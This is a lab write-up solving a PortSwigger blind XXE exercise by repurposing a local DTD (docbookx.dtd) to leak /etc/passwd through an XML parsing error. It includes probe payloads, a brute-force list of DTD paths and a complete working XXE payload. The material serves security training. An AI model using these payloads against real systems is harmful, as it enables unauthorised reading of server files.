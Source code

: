 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c376d8d9-e800-4e8d-ba2c-92d96b6edcb2)

## Overview :

The preceding technique [using external entities to retreive data by inducing error messages] works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. **As  per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)** 

In blind XXE vulnerabilities when out-of-band interactions are blocked, You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In such cases we can perform the following steps,

1. Find any local DTD's present in the server.
2. Redefine/Overwrite the entity in a local DTD file found with a payload to retreive `/etc/passwd`.
3. Induce an error in the payload (non-existent resource) , so that in the response we get the error along with the contents of /etc/passwd.

> Payload - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#windows-local-dtd-and-side-channel-leak-to-disclose-http-responsefile-contents

## Solution :

Clicking on checkstock feature sends the following request,

```xml
POST /product/stock HTTP/2
Host: 0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Cookie: session=wDrayLHAxtyDwXHTFHEpvEYW5kFaS3zu
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Identify which  local DTD is present on the server -

First let's declare a DOCTYPE with an external entity pointing to a **file that actually exist** 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>`


We get this XML parsing error in response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0d4f2dd-0d32-47db-a57d-228e83804983)


What if we gave an _non-existent file ?_ with a modification in the DOCTYPE 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///doesnotexist"> %file;]>`

This time we get a **File not found error**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1e2e51e7-2b29-4d58-a08b-5b22d6772508)


With this information that we've enumerated, we can bruteforce the files with a list of known and available DTD's to find which DTD's exist and which do not.

> Reference -
>
> Blog post on repurposing a DTD - https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

```bash
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

- Send the request to Intruder & add the `file:///`  position to bruteforce.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % file SYSTEM "file://§/donotexist§"> %file;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
 </stockCheck>
```

- Add payload as list of these DTD's to bruteforce to find which of the DTD's which are existing

- Uncheck the  `URL encode characters` option

- ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b1d583-2242-418c-9fc0-6463ab2f50fe)

Start attack.

From the result , we can see that only 2 DTD's are present on the server

- `/usr/share/yelp/dtd/docbookx.dtd`
- `/usr/share/xml/fontconfig/fonts.dtd`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0b3e525d-ece8-4f40-bb78-0872924cb12f)


Now we need to find what entities are defined in that particular DTD to overwrite them. For this we have to search online & do some research.

For the sake of completing this lab & not wasting time, we have been given the name of the entitiy which is `ISOamso`.

#### Overwriting the entitiy in docbookx.dtd -

This payload below overwrites the `ISOamso` entity in the local DTD named `docbookx.dtd` with the contents of `/etc/passwd`.

Then it uses an external entity to retreive an nonexistent file which then induces an error. So we will get the error and the contents of /etc/passwd in the response.

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4266ebd5-327c-42c7-aa08-899193a3ac50)


Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/676da997-eb39-42fa-a258-eb3c9100603e)








